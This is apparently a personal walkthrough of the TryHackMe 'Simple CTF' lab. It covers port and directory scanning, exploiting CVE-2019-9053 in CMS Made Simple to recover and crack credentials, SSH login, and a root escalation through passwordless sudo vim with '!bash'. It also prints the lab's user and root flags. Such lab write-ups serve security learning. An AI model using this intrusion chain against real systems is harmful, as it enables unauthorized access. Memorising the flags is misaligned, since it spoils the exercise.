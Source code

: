 # Simple CTF TryHackMe

Ironically doing this after the medium/hard ones. Should hopefully be fast and easy

IP=`10.10.172.9`

In browser, default apache page

ports:
```
* 21 ftp
* 80 http
* 2222 ssh
```

gobuster:
```
/simple/
```
Opening it, its pretty clear what it is: `cms made simple v2.2.8`

`searchsploit cms made simple`

use `CVE-2019-9053`

Brute forced it on `http://< IP >/simple/`

Creds:
```
salt:1dac0d92e9fa6bb2
username:mitch
email: admin@admin.com
password hash:0c01f4468bd75d7a84c7eb73846e8d96
password:secret
```
(Used rockyou to crack passwords)

`ssh -p 2222 mitch@< IP >`

`sudo -l` shows vim can be run without password

`vim`
`!bash`

and we can output both flags

`ls /home` also shows another user: `sunbath`

--- 

user flag: `G00d j0b, keep up!`
root flag: `W3ll d0n3. You made it!`

